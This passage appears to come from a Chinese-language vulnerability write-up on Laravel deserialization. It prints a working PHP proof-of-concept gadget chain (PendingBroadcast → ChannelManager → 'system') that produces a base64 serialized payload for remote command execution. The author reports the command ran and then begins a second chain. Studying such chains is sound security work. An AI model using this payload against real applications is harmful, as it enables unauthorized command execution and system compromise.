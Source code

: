 网上给的poc

```
<?php
namespace Illuminate\Broadcasting
{
    use  Illuminate\Notifications\ChannelManager;
    class PendingBroadcast
    {
        protected $events;

        public function __construct($cmd)
        {
            $this->events = new ChannelManager($cmd);
        }
    }
    echo base64_encode(serialize(new PendingBroadcast($argv[1])));
}


namespace Illuminate\Notifications
{
    class ChannelManager
    {
        protected $app;
        protected $defaultChannel;
        protected $customCreators;

        public function __construct($cmd)
        {
            $this->app = $cmd;
            $this->customCreators = ['jiang' => 'system'];
            $this->defaultChannel = 'jiang';
        }
    }
}
```

主要是想看看抽象类用不用在poc里面定义出来

## 漏洞复现

![image-20210809111342475](images/21.png)

虽然这里出现了一堆报错,但是最上面还是返回了我想要执行的命令

# 第二条链子

## 漏洞分析

漏洞入口点还是不变
